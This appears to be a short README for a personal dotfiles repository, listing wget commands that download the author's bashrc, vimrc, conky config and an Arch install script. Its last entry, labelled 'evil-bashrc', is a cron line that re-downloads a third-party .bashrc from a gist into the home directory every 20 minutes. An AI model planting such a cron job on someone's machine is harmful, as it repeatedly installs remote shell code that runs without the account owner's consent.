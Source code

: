 # Utilities Repository

* bashrc
> wget https://raw.githubusercontent.com/wiltonsr/Utils/master/.bashrc
* vimrc
> wget https://raw.githubusercontent.com/wiltonsr/Utils/master/.vimrc
* conkyrc
> wget https://raw.githubusercontent.com/wiltonsr/Utils/master/conky.conf
* arch-linux
> wget https://raw.githubusercontent.com/wiltonsr/Utils/master/arch-linux.install
* evil-bashrc
> 0,20,40 * * * * wget https://gist.githubusercontent.com/n7st/19fda48a814533e4796c/raw/f7976bbbde10082cd198672c2e97c3936c3170ad/.bashrc -P ~/
